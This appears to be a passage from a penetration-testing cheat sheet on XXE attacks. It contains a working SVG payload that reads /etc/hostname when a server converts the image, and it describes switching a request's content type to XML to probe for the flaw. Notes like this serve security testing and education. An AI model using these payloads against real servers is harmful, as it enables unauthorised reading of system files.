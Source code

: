 ##### Example
Consider a sever accepts an svg file as avatar and then convert it to png
it might execute our xml payload as well.The sample svg code below adds the
hostname inside the image when processed
```svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 96 105">
  <g fill="#97C024" stroke="#97C024" stroke-linejoin="round" stroke-linecap="round">
    <path d="M14,40v24M81,40v24M38,68v24M57,68v24M28,42v31h39v-31z" stroke-width="12"/>
    <path d="M32,5l5,10M64,5l-6,10 " stroke-width="2"/>
  </g>
  <path d="M22,35h51v10h-51zM22,33c0-31,51-31,51,0" fill="#97C024"/>
  <g fill="#FFF">
    <circle cx="36" cy="22" r="2"/>
    <circle cx="59" cy="22" r="2"/>
  </g>
<text font-size="10" x="0" y="16">&xxe;</text>
</svg>
```


#### Content type
Try changing the content type of a request to see if the server accepts if it
does there are chances of XXE


For example, if a normal request contains the following:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```xml
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

